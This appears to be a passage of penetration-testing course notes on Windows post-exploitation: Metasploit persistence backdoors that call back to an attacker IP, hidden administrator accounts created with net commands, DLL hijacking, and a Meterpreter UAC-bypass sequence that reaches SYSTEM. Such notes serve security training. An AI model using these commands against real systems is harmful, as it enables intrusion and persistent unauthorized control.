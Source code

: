 We can also use the `net` command for granting administrators privileges to standard users: `net localgroup "Administators" <Username> /add`.

(119/158) *Backdoor*: a reverse shell that persists through reboots of the target machines.
The reverse shell will try to automatically connect to the attacker machine at every reboot.
We can use free DNS services to hide the connection to a specific IP address at every boot. 

`run persistence -A -X -i <AttemptInterval> -r <AttackerIP> -p <AttackerPort>`: to get persistence through the use of a backdoor, where `-A` starts the Handler to connect to the agent, `-X` specifies to start the agent at boot (requires SYSTEM privileges), `-i` specifies the connection attempt interval in seconds.

The steps performed by the script are the following: creates the backdoor, uploads it and sets the registry keys to start it at boot.
Note that `persistence` script only works against Windows machines.

(132/158) *Manual installation*: instead of using automate persistence script we can also manually modify the Windows Registry keys entries to assure persistence for our backdoor.

(135/138) We can also add hidden new users with administrative privileges as follows:
`net user <Username> <Password> /add`, `net localgroup "Administrators" <Username> /add`: to create a new administator user.

(138/158) *DLL Hijacking* is a way to abuse a built-in behavior in the way that executables, when launched, search for DLL (Dynamic Link Libraries) to import, known as DLL search order:
1. The directory from which the application was launched
2. The C:\Windows\System32 directory
3. The 16-bit Windows system directory (i.e, C:\Windows\system)
4. The Windows directory (C:\Windows)
5. The current directory at the time of execution
6. Any directories specified by the %PATH% environment variable

Using this technique we can ensure that our malicious DLL payload is executed in the place of the original one.
The process for DLL Hijacking is the following:
1. Create a procmon (Process Monitor) filter for a specific executable we'd like to investigate ('Process Name is <ProcessName>.exe') and also create a filter for `NAME NOT FOUND` for the `Result` column ('Result is NAME NOT FOUND'). We can also create other filters to shrink the search ('Operation is CreateFile' and 'Path begins with <ProcessPathParent>').
2. Identify cases where the application is looking for a DLL in a directory which we can modify/write to.
3. Drop our modified malicious DLL payload.
4. Restart the service, re-launch the application, or wait for the system reboot.

To verify that the current user has the privileges to write in the process directory: `Get-ACL '<ProcessPath>' | Format-List`.

### Privilege Escalation - Video

Metasploit:
Assume we already have a Meterpreter session (reverse shell).
`sysinfo`: we have a Windows 10 machine, `getsystem`: not working, `run post/windows/gather/win_privs`: not admin - not system - UAC enabled, `background`, `search uac`, `use exploit/windows/local/bypassuac_injection`, `show options`, `set SESSION 1`, `show targets`, `set TARGET 1`, `set PAYLOAD windows/x64/meterpreter/reverse_tcp`: if we do not select the correct version (x64) the exploitation will fail, `exploit`: to create a new Meterpreter session with higher privileges.
`run post/windows/gather/win_privs`: is admin - not system - UAC enabled, `getsystem`: to get also the system privileges (the highest privileges on Windows), `getuid`: `NT AUTHORITY\SYSTEM`.
If no one of the UAC bypass modules work, we can use other tools, like UACME.
